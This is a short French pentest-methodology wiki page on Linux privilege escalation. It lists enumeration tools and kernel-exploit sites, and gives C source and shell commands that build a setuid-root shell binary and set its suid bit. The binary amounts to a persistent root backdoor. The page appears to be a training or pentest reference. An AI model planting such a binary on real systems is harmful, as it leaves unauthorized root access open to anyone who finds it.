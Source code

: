 ```yaml
---
title: Elevation de priviléges (Linux)
permalink: /Elevation_de_priviléges_(Linux)/
---
```


# Elévation de priviléges (Linux)

Enumération
-----------

Cette étape consiste à rassembler des informations pour élever ses privilèges. Il peut être utilise d'utiliser le script [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py) pour récupérer automatiquement les informations utiles.

### Exploits Kernels

En fonction de la version du Kernel utilisé, le site <https://www.kernel-exploits.com/> recense des exploits kernels pour différentes versions de Linux.

Shell Root
----------

Si on peut executer des commandes en tant que root, mais que l'on a pas encore un "vrai" shell root, il peut être utile de compiler un programme permettant de lancer un shell et lui mettre le bit suid.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/sh");
    return 0;
}
```

Dans un premier temps on créer le fichier permettra d'avoir un shell root:

``` bash
echo "#include <stdlib.h>"> main.c
echo "#include <stdio.h>">> main.c
echo "#include <unistd.h>">> main.c
echo "#include <sys/types.h>">> main.c
echo 'int main(){setuid(0);system("/bin/sh");return 0;}'>> main.c
```

Ensuite on le compile:

``` bash
gcc main.c -o suid
```

Ces deux étapes peuvent se faire sur une autre machine (notamment si gcc n'est pas présent). Ensuite il est nécessaire d’exécuter les commandes suivantes en tant que root:

``` bash
chown root:root suid
chmod ugo+s suid
```

Resources
---------

-   [G0tmi1k Blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
-   [Linux Exploit Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester)
-   [PentestMonky unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
-   [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)
-   [Kernel-Exploits](https://www.kernel-exploits.com/)
-   [Its Too Funky In Here04 Linux privilege escalation for fun profit and all around mischief](https://www.youtube.com/watch?v=dk2wsyFiosg)

[Category:Méthodologies](/Category:Méthodologies "wikilink")
